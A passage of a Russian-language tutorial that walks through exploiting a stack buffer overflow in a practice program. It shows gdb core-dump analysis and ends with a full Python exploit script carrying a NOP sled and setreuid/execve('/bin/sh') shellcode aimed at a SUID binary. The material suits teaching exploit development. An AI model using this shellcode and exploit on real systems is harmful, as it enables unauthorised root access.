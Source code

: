 1. Установка «безлимита» на размер создаваемых дампов.
2. Добавление к имени файла дампа идентификатора PID процесса.
3. Изменение общего шаблона имени файла дампа (описание форматов можно найти [в мануле](http://man7.org/linux/man-pages/man5/core.5.html) core).
4. Включение создания дампов для исполняемых файлов с SUID-битом.

Далее я «уроню» нашу программу (на этот раз уже из терминала), с помощью Python передав на вход ту самую диагностическую строку c «мертвым кодом» в качестве адреса возврата.

```
$ ./overflow `python -c 'print "A"*132 + "\xd3\x4d\xc0\xd3"[::-1]'`
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAM
Ошибка сегментирования (сделан дамп памяти)
```

Согласно заданному шаблону имени дамп сохранился в директории /tmp. Запустим отладчик, указав путь до файла, содержащего дамп.

```
$ gdb ./overflow /tmp/core-overflow-11-1000-1000-8767-1568120200 -q
```

И проведем ровно те же самые манипуляции, которые я описал выше, когда мы в первый раз рассчитывали расположение шелл-кода. В моем случае, чтобы снова «прыгнуть» на середину NOP-среза, расположенного перед шелл-кодом, мне потребовалось изменить адрес возврата на `0xbfffee2c`.

Таким образом, у нас есть все для создания красивого скрипта для PWN'а рассматриваемой уязвимости.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Использование: python exploit.py

import struct
from subprocess import call


def little_endian(num):
	"""Упаковка адреса в формат little-endian."""
	return struct.pack('<I', num)


junk     = 'A' * 35                   # мусор из символов "A"
nop_sled = '\x90' * 32                # NOP-срез
ret_addr = little_endian(0xbfffee2c)  # адрес возврата

# setreuid(0,0) + execve("/bin/sh", ["/bin/sh", NULL])
shellcode = '\x6a\x46\x58\x31\xdb\x31\xc9\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80'

payload  = nop_sled
payload += shellcode
payload += nop_sled
payload += junk
payload += ret_addr

try:
	call(['./overflow', payload])  # выполнится в случае, если был импорт функции call (7-я строка)
except NameError:
	print payload  # выполнится в противном случае
```


[//]: # (2019-09-20)